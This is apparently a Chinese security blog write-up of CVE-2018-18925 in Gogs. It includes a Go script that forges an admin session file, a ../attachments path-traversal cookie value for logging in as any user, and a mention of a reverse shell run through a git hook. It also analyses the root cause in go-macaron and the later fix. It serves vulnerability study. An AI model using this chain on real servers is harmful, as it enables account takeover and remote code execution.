


Gogs 远程代码执行 (CVE-2018-18925)
漏洞概述
Gogs 使用了 go-macaron 作为 Web 框架,而 go-macaron 中的 session 插件并没有对 sessionid 进行过滤, 从而导致攻击者可以使用任意文件作为 session， 登陆其他任意账号。该漏洞存在于 Gogs <= 0.11.66 的版本中。利用该漏洞，任意普通用户可以伪造 session 登陆任意账号，通过伪造并登陆管理员账号后可以使用 git hooks 执行任意命令。
环境搭建
下载 Gogs 源码：go get github.com/gogs/gogs
切换回有漏洞的版本：git checkout v0.11.66
漏洞检测
任意用户登录
注册一个任意的普通账户，并创建一个任意的 repo：
在我的测试环境中，管理员的账户名为 zh1x1an，使用如下 go 脚本生成伪造的 session 文件：
package main
import (
"bytes"
"encoding/gob"
"encoding/hex"
"fmt"
"io/ioutil"
)
func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
for _, v := range obj {
gob.Register(v)
}
buf := bytes.NewBuffer(nil)
err := gob.NewEncoder(buf).Encode(obj)
return buf.Bytes(), err
}
func main() {
var uid int64 = 1
obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "zh1x1an"}
data, err := EncodeGob(obj)
if err != nil {
fmt.Println(err)
}
err = ioutil.WriteFile("test.png", data, 0755)
if err != nil {
fmt.Println(err)
}
edata := hex.EncodeToString(data)
fmt.Println(edata)
}该文件会在当前目录创建一个 test.png 文件，也就是伪造的 session 文件，内容如下：
确认生成的文件内容无误后，在上文 “版本发布” 的位置上传 test.png 文件：
得到链接地址如下：
http://127.0.0.1:3000/attachments/bbb26736-7e47-4683-a644-1b44d12c20f1其中 attachments 后为该文件 session_id。Gog 会将该文件存储在 data/attachments/session_id[0]/session_id[1] 路径下，也就是 data/attachments/b/b/bbb26736-7e47-4683-a644-1b44d12c20f1 。
直接在浏览器控制台中，替换 cookie 中为 ../attachments/session_id[0]/session_id[1] ，也就是 ../attachments/b/b/bbb26736-7e47-4683-a644-1b44d12c20f1 ，即可登陆管理员账户：
任意代码执行
伪造登陆管理员账户后，创建一个任意仓库，在 仓库设置→管理 Git 钩子→ post-recieve 中编辑 bash 脚本。
随后在该仓库中新建一个文件，触发钩子，执行 bash 脚本中反弹 shell 的命令：

漏洞分析
go-macaron 框架 cookie 的处理方式
首先在 go-macaron/session/session.go:73行的位置，初始化了 options 结构体，在 gogs 程序第一次启动的时候，options.CookieName 会被初始化为 i_like_gogits 。这是 cookie 的一个 key 值，我们接下来看它所对应的 value：
在 go-macaron/session/session.go:256 行，调用了 ctx.GetCookie(m.opt.CookieName) 从 http 请求中取得 Cookie 中 key 为 i_like_gogits 的值，赋值给局部变量 sid，继续往下跟进：
取出的 i_like_gogits 的值会传递进入 m.provider.Read() 函数，跟进：
路径穿越
sid 又传递给 p.filepath() 函数处理，该函数将 sid[0]，sid[1]，sid 三个字符串拼接在 data/sessions 路径后，返回 session 文件的存储路径。这里有一个很严重的问题，sid 是我们传入 cookie 中 i_like_gogits 对应的 value，是完全可控的，拼接路径的过程中没有对 ../ 这种路径穿越字符的过滤。所以我们可以读取任意文件作为 session。
session 文件中的内容使用 gob 编码，在需要读取的时候会调用 DecodeGob 函数解码，如果要伪造 session，必须先通过 gob 编码。这没有任何难度，因为对于 go 语言来说，这里用的 gob 不是加密算法，而是一种编码，对应的编码解码规则都一清二楚。先贴一下 EncodeGob 和 DecodeGob 的代码：
伪造 session
我们重新创建一个名为 tester1 的用户，携带 cookie 值，再来跟一下上面的流程，读取出来的数据如下：
在 session.go:154 行拿到 sess 变量，其中包括该 session 的 uid，uname 以及 _old_uid 。
uname 就是我们的用户名，这里是 tester1。在我的测试环境中，管理员的用户名为 zh1x1an，所以只需要将 uname 从 tester1 改为 zh1x1an，在用 gob 编码生成伪造的 session 文件，即可实现任意用户登陆。
使用上文中的脚本生成伪造的 session 文件：

go run test1.go 运行后，伪造的管理员 session 信息就存储在了 test.png 文件中，所以只需要找到一个文件上传的功能即可。在中文版 gogs 中，“版本发布” 允许我们上传文件（英文版为 releases）。
上传伪造的 session 文件，修改 cookie 中 i_like_gogits 的值为相应的上传路径后即可登陆管理员账户。接下来只需要按照前面漏洞检测的流程，借助 git hook 执行命令。整个攻击流程，还是很精彩的。
其他
在最新版的 gogs 中，（时间2020年1月16日），gogs 不再使用 i_like_gogits 作为 sessionid 的 key，而是使用 i_like_gogs，并且对其 value 加入了检查。
- i_like_gogs 的 value 长度必须为 16
- i_like_gogs 的 每一个字符必须在 0-9a-f 区间
使用目录穿越的方式指定任意文件作为 session 的方法已经失效。

参考资料
https://www.youtube.com/watch?v=XtJRF2c_ULY&t=850s
转载请注明来源，欢迎对文章中的引用来源进行考证，欢迎指出任何有错误或不够清晰的表达。可以在下面评论区评论
文章标题:Gogs 远程代码执行 (CVE-2018-18925)
文章字数:1.3k
本文作者:知弦
发布时间:2020-01-14, 23:10:38
最后更新:2020-01-18, 20:14:42
原始链接:http://zh1x1an.com/2020/01/14/Gogs-%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C-CVE-2018-18925/版权声明: "署名-非商用-相同方式共享 4.0" 转载请保留原文链接及作者。